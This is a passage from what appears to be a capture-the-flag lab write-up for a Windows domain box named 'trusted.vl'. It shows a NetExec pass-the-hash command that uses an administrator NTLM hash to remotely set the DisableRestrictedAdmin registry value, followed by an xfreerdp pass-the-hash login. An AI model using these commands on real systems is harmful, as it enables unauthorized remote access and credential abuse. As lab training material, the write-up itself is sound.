 
now let’s navigate to the desktop and see the flag

```bash
cd C:\Users\Administrator\desktop
```

![image.png](../images/trusted%2033.png)

Now to get the root let’s edit the registry to allow RDP using the hash

```bash
nxc smb trusted.vl -u "administrator" -H "15db914be1e6a896e7692f608a9d72ef" -x 'reg add HKLM\System\CurrentControlSet\Control\Lsa /t REG_DWORD /v DisableRestrictedAdmin /d 0x0 /f'
```

![image.png](../images/trusted%2034.png)

Now let’s RDP

```bash
xfreerdp /u:administrator /pth:15db914be1e6a896e7692f608a9d72ef /d:trusted.vl /v:10.10.204.85 /cert-ignore /tls-seclevel:0
```
